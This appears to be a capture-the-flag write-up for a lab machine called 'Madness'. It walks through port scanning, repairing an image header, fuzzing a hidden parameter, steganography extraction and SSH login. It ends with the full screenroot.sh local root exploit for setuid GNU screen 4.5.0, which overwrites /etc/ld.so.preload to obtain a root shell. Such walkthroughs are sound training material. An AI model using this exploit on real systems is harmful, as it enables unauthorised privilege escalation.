

# Madness

## Nmap

```
sudo nmap 10.10.123.18 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 24.11 seconds
```

The default page for http://\<IP> resolves to the Apache2 Ubuntu page.

 (1).png>)

Looking at the page source code we find something of interest.

.png>)

We can then use `Curl` to download the JPG file.

```bash
curl http://10.10.123.185/thm.jpg --output thm2.jpg
```

From here we have no luck opening the file as a standard JPG file. I uploaded the file to an online hex editor to further inspect.



The hex editor shows that the header information for the file is actually set to PNG rather than JPEG.

 (1).png>)

Using the following information linked here: [https://www.file-recovery.com/jpg-signature-format.htm](https://www.file-recovery.com/jpg-signature-format.htm).

We are able to replicate the correct header for the first line in order to set the correct header for the data type.

 (1).png>)

After doing so the image can be exported and viewed correctly.

 (1).png>)

The image presents the directory `/th1s_1s_h1dd3n`.

 (1).png>)

Viewing the page source reveals the commented line:

```html
<!-- It's between 0-99 but I don't think anyone will look here-->
```

After some poking about I found that the main index page is PHP. Along with this and no obvious method for inputting the secret mentioned above its probable that the `/th1s_1s_h1dd3n` directory will take a `PHP` parameter for input.

After some testing I found the following URL to be a valid parameter:

```
http://<IP>/th1s_1s_h1dd3n/?secret=1
```

 (1).png>)

I then used `fuff` to automate this.

```bash
ffuf -u "http://<IP>/th1s_1s_h1dd3n/?secret=FUZZ" -c -w ~/Desktop/99.txt -fw 45      
```

 (1).png>)

Where the number 73 appears to be the correct input.




This password can be used with `steghide` to then extract secret information from the `thm.jpg` (with the correct JPEG header).

```bash
steghide --extract -sf thm.jpg
```

From the extracted data we find we are given an encoded username. Using Cyberchef: [https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)](https://gchq.github.io/CyberChef/#recipe=ROT13\(true,true,false,13\)) and with the hint from the room ROT13 can be used to decode the real username value.

Unfortunately this part of the room had to be looked up. This is because the password information required to proceed is hidden in the image on the room page.

 (1).png>)

```
steghide --extract -sf thm-image.jpg 
```

We do not need a password to extract at least...

We now have all the information required to proceed with a SSH login as the user joker.

.png>)

Through the standard enumeration checks we find `SETUID` is set on a non standard binary screen-4.5.0.

```
find /bin -perm -4000
```

 (1).png>)

A simple Google search for this binary shows various exploits. Of which the most simple is shown below.

**Original vulnerability report:** [https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)

**Github PoC:** [https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh)

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

Create a bash file with `nano` and paste the code above in the file. Then execute with `bash`. This will give us a root shell.

 (1).png>)
